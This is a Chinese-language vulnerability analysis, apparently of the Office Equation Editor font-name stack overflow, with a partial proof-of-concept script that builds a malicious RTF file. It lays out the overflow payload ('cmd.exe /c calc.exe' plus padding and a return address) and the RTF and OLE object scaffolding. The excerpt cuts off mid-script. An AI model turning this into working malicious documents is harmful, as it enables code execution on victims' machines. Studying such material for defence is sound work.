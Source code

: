 我们主要关注的是其中的 FONT 结构，也就是漏洞点，结构如下

| **Description** | **Size (byte)**           | **Value**                                                   | **Comment**                           |
| --------------- | ------------------------- | ----------------------------------------------------------- | ------------------------------------- |
| Tag             | 1                         | 0x8                                                         | 0x8 denotes Font record               |
| Typeface Number | 1                         | 0x5a                                                        |                                       |
| Style           | 1                         | 0x5a                                                        |                                       |
| Font Name       | Variable, NULL terminated | “cmd.exe /c calc.exe AAAAAAAAAAAAAAAAAAAAAAAA” + 0x00430c12 | Overflow and overwrite return address |

大致是这样子

```
struct stuFontRecord {
　　BYTE bTag;        // 字体文件的tag位0×08
　　BYTE bTypeFace;   // 字体风格0x5a
　　BYTE bStyle;      // 字体样式0x5a
　　BYTE bFontName[n] // 字体名称,以NULL为结束符,漏洞点
};
```

Font record = tag(固定为8，占一个字节) + typeface(占一个字节) + style(占一个字节) + font_name(以0x00结尾的字符串)

```python
#poc.py关键注释
#文件头 包含字符集 支持字符 缺省字体 字体表 生成器
{\rtf1\ansi\ansicpg1252\deff0\nouicompat\deflang1033{\fonttbl{\f0\fnil\fcharset0 Calibri;}}
#版本信息
{\*\generator Riched20 6.3.9600}
#正常视图 单字节
\viewkind4\uc1
#段落文本属性
\pard\sa200\sl276\slmult1
# 字体 大小 
\f0\fs22\lang9 
#控制字 自动更新ole对象
{\object\objemb\objupdate
#公式对象
{\object\objemb\objupdate{\*\objclass Equation.3}\objw380\objh260{\*\objdata 
                                                        
```

```python
#poc.py完整
import argparse
import sys


RTF_HEADER = R"""{\rtf1\ansi\ansicpg1252\deff0\nouicompat\deflang1033{\fonttbl{\f0\fnil\fcharset0 Calibri;}}
{\*\generator Riched20 6.3.9600}\viewkind4\uc1
\pard\sa200\sl276\slmult1\f0\fs22\lang9"""


RTF_TRAILER = R"""\par}
"""


OBJECT_HEADER = R"""{\object\objemb\objupdate{\*\objclass Equation.3}\objw380\objh260{\*\objdata """

#对象区\resul结果对象控制字，结果目标包含了该对像的最后更新结果。这样//允许那些不能识别对象或者不能使用该特定类型对象的旧的RTF阅读器使用当//前的对象值来替换该对象，从而保持其外观显示。
OBJECT_TRAILER = R"""
}{\result {\rtlch\fcs1 \af0 \ltrch\fcs0 \dn8\insrsid95542\charrsid95542 {\pict{\*\picprop\shplid1025{\sp{\sn shapeType}{\sv 75}}{\sp{\sn fFlipH}{\sv 0}}
```